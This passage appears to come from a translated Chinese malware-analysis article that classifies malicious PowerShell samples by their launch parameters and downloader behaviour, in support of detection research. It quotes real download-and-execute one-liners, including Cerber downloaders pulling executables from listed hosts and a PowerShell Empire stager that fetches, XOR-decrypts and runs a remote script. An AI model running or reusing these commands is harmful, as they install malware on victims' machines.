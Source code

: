利用该参数可以执行参数后面的命令，就如同直接在PowerShell提示符下输入命令一样。我只捕捉到一个样本，它直接附加到某个恶意软件中，该恶意软件在FireEye发布的一篇关于绕过基于签名的检测方法的博文中提到过。该PowerShell脚本包含在一个DOCM文件的“Comments“域中，通过Word文档的宏加载执行。以下是该样本的恶意PowerShell代码片段，通过将多条命令组合在一起，可以实现FTP传输和NetCat建连目的。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0126b2d7b39e40a0d2.png)

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014894da90bca8b8ee.png)

现在，让我们整体看一下样本集中排名前十的PowerShell参数组合。

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010cbf5c7708beaa93.png)

即使将代码的多样性考虑在内，以上排名结果也不会出现太大变化，只是使用某些参数的样本个数有些许改变而已。

在整个研究过程中，我发现有些代码作者对新版本的工具特征进行了修改，如下所示，新版本中作者稍微对参数形式进行了变化：

[![](./img/85746/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b9a70c0e23701186.png)

图6. 代码作者对不同版本样本的参数修改对比

这种修改会导致变种族群总数的变化，但我认为这些变化不会对总体结果造成特别大的影响。我的调查研究表明，代码作者很少对参数的顺序或长度做出动态改变以混淆其攻击活动，相反，他们更加关注代码基本功能的随机化，也更加关注代码的内在方面。这也使得我们可以使用PowerShell启动参数作为特征对样本进行大致精确的分类。

此外，前三种参数使用方式占了样本总数的72%，这也说明攻击者更倾向于简单地执行PowerShell脚本，而不关心后续攻击行动的隐蔽性。

<br>

**四、数据后期分析及统计**

接下来我会讨论识别出来的每个变种类别并分析他们的功能。对具备下载文件或脚本功能的变种，我将它们使用的IP地址/域名/URL信息附在本文末尾。这些地址中有些是恶意性质的，有些是用来做渗透测试的，有些只是人们用来做新技术的随机测试。不幸的是，在大规模批量分析中，我们很难推测每个地址的真实用处，因此我将这些信息直接提供给读者加以鉴别。

**（一）下载器类别**

此类PowerShell代码的主要目的是下载运行远程主机的载荷或PowerShell脚本。

**4.1 Downloader DFSP（1,373个样本，占比33.49%）**

这是使用PowerShell下载和运行文件的一个典型类别，也基本就是你在使用Google搜索如何利用PowerShell下载和执行文件时所得到的搜索结果。我使用以下模板作为此类样本的筛选器。

```
(New-Object System.Net.WebClient).DownloadFile('http://cajos[.]in/0x/1.exe','mess.exe');Start-Process 'mess.exe'
```

如前文所述，几乎所有匹配此类别的变种都与恶意Word文档有关，这些文档会通过宏启动PowerShell以下载Cerber恶意软件。此类样本中有个特例，除了使用URI之外，它在路径参数中还使用了环境变量。

Cerber下载器代码：

```
(New-Object System.Net.WebClient).DownloadFile('http://94.102.53[.]238/~yahoo/csrsv.exe',"$env:APPDATAcsrsv.exe");Start-Process ("$env:APPDATAcsrsv.exe")
```

**4.2 PowerShell Empire（293个样本，占比7.15%）**

此类变种使用PowerShell Empire的EncryptedScriptDropper来下载远程脚本，并使用内置的异或密钥进行解密。

```
$Wc=NeW-ObjeCt SySTEM.Net.WebCLiEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$WC.HeadeRS.ADd('User-Agent',$u);$wc.PrOxy = [SyStem.NeT.WEbReQUeSt]::DEFauLTWeBProxy;$WC.PRoXY.CrEdENTIaLS = [SYStEM.NeT.CReDEnTiALCaChE]::DEFaulTNeTworKCREdeNtiaLS;$K='0192023a7bbd73250516f069df18b500';$i=0;[CHAr[]]$B=([CHaR[]]($wc.DOwnloaDSTRing("http://23.239.12.15:8080/index.asp")))|%{$_-BXOr$k[$i++%$K.LENgTh]};IEX ($B-jOIn'')
```
